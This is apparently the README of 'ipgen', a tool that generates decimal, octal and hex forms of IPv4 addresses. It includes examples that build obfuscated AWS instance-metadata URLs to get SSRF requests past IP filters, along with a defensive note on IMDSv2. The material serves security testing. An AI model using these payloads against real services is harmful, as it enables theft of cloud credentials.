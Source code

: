 
`ipgen` is a simple tool to help both offensive and defensive security folk to quickly generate extended format IPv4 addresses. 

While not explicitly allowed by an RFC, these are supported through functions like `inet_aton` and `inet_addr` in the C standard library ([inet(3)](https://man7.org/linux/man-pages/man3/inet.3.html)). These functions are used widely across network programs, accept these extended formats as a matter of convenience and backward compatibility.

While writing `ipgen` I came across an excellent blog [Filters and Bypasses - Rare IPv4 Formats for SSRF](https://dominicbreuker.com/post/filters_bypasses_rare_ipv4_formats_for_ssrf/) which does a great job at explaining the concepts used

# Usage
```
$ ./ipgen 

▪   ▄▄▄· ▄▄ • ▄▄▄ . ▐ ▄ 
██ ▐█ ▄█▐█ ▀ ▪▀▄.▀·•█▌▐█
▐█· ██▀·▄█ ▀█▄▐▀▀▪▄▐█▐▐▌
▐█▌▐█▪·•▐█▄▪▐█▐█▄▄▌██▐█▌
▀▀▀.▀   ·▀▀▀▀  ▀▀▀ ▀▀ █▪

Usage
  ipgen [options] <IPv4 address>

Options:
  -format string
    	specify formats: dec, oct, hex, all (default "all")
  -mix
    	all mixed combinations
  -pad int
    	number of 0s to pad hex and oct numbers
```

Default output
```
$ ipgen 192.0.2.1
192.0.2.1
192.0.513
192.513
3221225985
0300.00.02.01
0300.00.01001
0300.01001
030000001001
0xc0.0x0.0x2.0x1
0xc0.0x0.0x201
0xc0.0x201
0xc0000201
```

padding hexadecimal and octal with leading 0s
```
$ ipgen -format hex,oct -pad 2 192.168.0.1
0x00c0.0x00a8.0x000.0x001
0x00c0.0x00a8.0x001
0x00c0.0x00a80001
0x00c0a80001
000300.000250.0000.0001
000300.000250.0001
000300.00052000001
00030052000001
```

Verifying these actually work
```
$ ipgen -format hex -pad 2 8.8.4.4 | shuf | head -1 | xargs ping -c 1
PING 0x008.0x008.0x004.0x004 (8.8.4.4) 56(84) bytes of data.
64 bytes from 8.8.4.4: icmp_seq=1 ttl=128 time=22.0 ms

--- 0x008.0x008.0x004.0x004 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 21.975/21.975/21.975/0.000 ms
```

# Server Side Request Forgery (SSRF)

Example usage of `ipgen` is testing SSRF ([MITRE ATT&CK T1190](https://attack.mitre.org/techniques/T1190/)) to access AWS instance metadata service (IMDS)

There may be a simple IPv4 check to prevent an attacker from [retrieving instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) via SSRF.

The AWS IMDS URL is http://169.254.169.254/latest/meta-data/

Using `ipgen` to generate a number of different URLs to try:
```bash
$ echo "http://$(ipgen 169.254.169.254 | shuf | head -1)/latest/meta-data"
http://169.16689662/latest/meta-data
```

or

```bash
$ for i in $(ipgen 169.254.169.254); do echo "http://${i}/latest/meta-data"; done
http://169.254.169.254/latest/meta-data
http://169.254.43518/latest/meta-data
http://169.16689662/latest/meta-data
http://2852039166/latest/meta-data
http://0251.0376.0251.0376/latest/meta-data
http://0251.0376.0124776/latest/meta-data
http://0251.077524776/latest/meta-data
http://025177524776/latest/meta-data
http://0xa9.0xfe.0xa9.0xfe/latest/meta-data
http://0xa9.0xfe.0xa9fe/latest/meta-data
http://0xa9.0xfea9fe/latest/meta-data
http://0xa9fea9fe/latest/meta-data
```

Feeling lucky? Everybody shuffling...
```bash
$ echo "http://$(ipgen -mix 169.254.169.254 | shuf | head -1)/latest/meta-data"
http://169.16689662/latest/meta-data
```

To defend against this attack, enable IMDSv2. IMDSv1 is a request/response method while IMDSv2 is session-orientated. More detail on this can be found in the AWS blog [Add defense in depth against open firewalls, reverse proxies, and SSRF vulnerabilities with enhancements to the EC2 Instance Metadata Service](https://aws.amazon.com/blogs/security/defense-in-depth-open-firewalls-reverse-proxies-ssrf-vulnerabilities-ec2-instance-metadata-service/)


# License

This project is licensed under the GPLv3 License - see the LICENSE.md file for details

# Acknowledgements  
- Dominic Breuker

Shout outs: 
- Catalyst (RIP)
- IRATE